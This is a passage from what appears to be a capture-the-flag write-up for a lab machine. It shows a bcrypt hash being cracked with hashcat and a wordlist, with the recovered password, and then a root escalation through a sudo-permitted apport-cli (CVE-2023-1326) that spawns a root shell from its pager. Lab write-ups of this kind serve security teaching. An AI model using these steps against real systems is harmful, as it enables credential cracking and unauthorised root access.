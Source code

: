 Bcrypt hashes.
cracked logan hashes using hashcat:

```bash
hashcat -a 0 -m 3200 '$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12' ~/SecLists/rockyou.txt
```

```
$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho
```

# Root

Acutally you could have logged in with 

```
ssh lewis@10.10....
```

but it didn't worked for me. Maybe i typed the wrong password.

Running linux smurt enum script, will soon return useful info about sudo programs that can be run from users.
This is the equivalent of running:

```bash
sudo -l

Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

Apport is a software to handle crash reports of other running softwares on ubuntu. The apport has many vulnerabilites on version `2.20`.

```bash
apport-cli --version
```

so we have `apport-cli` which is a python script which can run with sudo privileges. `apport-cli` allows to manage and handle crashes. 

The CVE wich we can exploit is the following:

https://github.com/diego-tella/CVE-2023-1326-PoC

In practize, when a report is generated you can use `apport-cli` to manipulate it. In fact, openening viewer mode on a report runs more internally. So we can from here useL

```bash
!/bin/bash
```

to spawn a bash with root privileges.
